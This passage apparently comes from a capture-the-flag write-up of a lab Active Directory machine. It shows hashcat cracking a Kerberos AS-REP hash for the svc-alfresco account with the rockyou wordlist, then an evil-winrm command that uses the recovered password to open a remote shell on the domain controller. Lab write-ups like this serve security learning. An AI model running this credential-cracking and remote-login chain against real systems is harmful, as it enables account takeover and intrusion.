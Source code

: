 ```shell
Rules: 1

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$svc-alfresco@HTB.LOCAL:5d2ddc1fe2a1c77d9eb9597a4b64911a$8142786484d4917cc44d1a82ab991ffc217b710001caadf97251d300dd1d34d59d581f73348474ca688138fb6c4fedf6022141cea3ab7f97450990e7c0c12b9e2b88a2af6d047bf823622b017661caf2962ea77ed81b2043d00fe14952cd7e73c3eb50666fc8d0014fee1df2ff9e350423bcfb18702e88bcedbf8a85d17d51ff6e7eae55dbe6e97d888e179c0da4ad756d293291fab0ce249d62dec58b3d4cc73a93959ada906f753ea7bc9357d515aabc58a7bf7d0e5e03b7f92c38ed02895d147af275ffd87eb556eb891004b017c21fdb5756b960e9f3cbc8409517abfe0d860961f0dcc6:s3rvice
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$svc-alfresco@HTB.LOCAL:5d2ddc1fe2a1c7...f0dcc6
Time.Started.....: Sat Sep  2 15:05:12 2023 (14 secs)
Time.Estimated...: Sat Sep  2 15:05:26 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   309.2 kH/s (7.33ms) @ Accel:32 Loops:1 Thr:64 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4087808/14344385 (28.50%)
Rejected.........: 0/4087808 (0.00%)
Restore.Point....: 4079616/14344385 (28.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: s9039554h -> s2704081
```

We got the password.

## **Foothold**

Since this is a domain controller, `winrm` is probably open, let's try connecting to it

```shell
$ evil-winrm -i htb.local -u svc-alfresco -p s3rvice

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```
